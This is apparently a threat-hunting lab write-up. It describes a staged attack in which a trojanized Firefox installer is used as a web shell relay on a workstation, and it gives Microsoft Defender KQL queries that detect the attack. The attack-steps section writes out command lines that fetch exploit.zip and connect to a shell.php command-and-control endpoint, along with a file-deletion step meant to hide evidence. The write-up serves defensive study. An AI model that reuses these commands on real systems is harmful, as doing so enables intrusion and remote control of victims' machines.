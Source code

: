# Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:

1. Initial Compromise: Downloaded a trojanized Firefox installer disguised as a legitimate file (`Firefox Installer.exe`) to `C:\Users\employee0\Downloads\` at 04:29:57 UTC from what appeared to be Mozilla's official CDN.

2. First Malicious Execution: Executed  `setup-stub.exe ` (SHA256: `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac `)
   `  setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/exploit.zip `

3. **Web Shell Connection Established**: Re-executed `setup-stub.exe` targeting a web shell endpoint for command-and-control:
    `setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/admin/shell.php`
   
4. Multi-Stage Dropper Deployment: Three sequential download.exe executions occurred from randomized temporary directories, indicating a staged infection process:
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\download.exe` (05:11:57 UTC)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\download.exe` (05:54:48 UTC - SHA256: `b5284b0e4a5f867a1342a4bc5a7ca21b9c13c49bea1b48624b691473d14dec78`)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\download.exe` (05:55:31 UTC)
Each executed with: `/LaunchedFromStub /INI=[temp_path]\config.ini`

5. Anti-Forensics: Deleted legitimate `firefox.exe` from `C:\Program Files\Mozilla Firefox\` at 05:55:24 UTC to remove evidence and potentially replace with compromised binary. Deletion initiated by the malicious stub process.

6. Persistence Establishment: Created malicious profile directory  `Temp\MalProfile ` to maintain persistent connection to remote command server and host additional payloads.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table|
| **Purpose**| Used to detect Firefox installer downloads, temporary profile creation, and file deletion (covering tracks). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect ```download.exe```, ```setup-stub.exe```, and malicious command-line arguments used to install and execute payloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect external web connections initiated by Firefox and setup-stub to remote IPs (e.g., 172.203.80.23).|

---

## Related Queries:
```kql
// 1. Identify Firefox installer downloads and suspicious file activity
DeviceFileEvents
| where DeviceName == "snet"
| where FileName contains "firefox" 
| where InitiatingProcessAccountName == "employee0"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, InitiatingProcessCommandLine
| order by Timestamp desc

// 2. Detect malicious process executions (setup-stub.exe and download.exe)
DeviceProcessEvents
| where DeviceName == "snet"
| where FileName in~ ("setup-stub.exe", "download.exe")
| where AccountName == "employee0"
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine, SHA256
| order by Timestamp desc

// 3. Detect firefox.exe deletion (anti-forensics activity)
DeviceFileEvents
| where DeviceName == "snet"
| where FileName == "firefox.exe"
| where ActionType == "FileDeleted"
| where FolderPath contains "Mozilla Firefox"
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessCommandLine, FolderPath, SHA256

// 4. Detect network connections to malicious endpoints
DeviceNetworkEvents
| where DeviceName == "snet"
| where InitiatingProcessFileName in~ ("setup-stub.exe", "firefox.exe")
| where RemoteUrl has_any ("shell.php", "exploit.zip") 
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 10, 2025`  | `Antonio Francisco`   
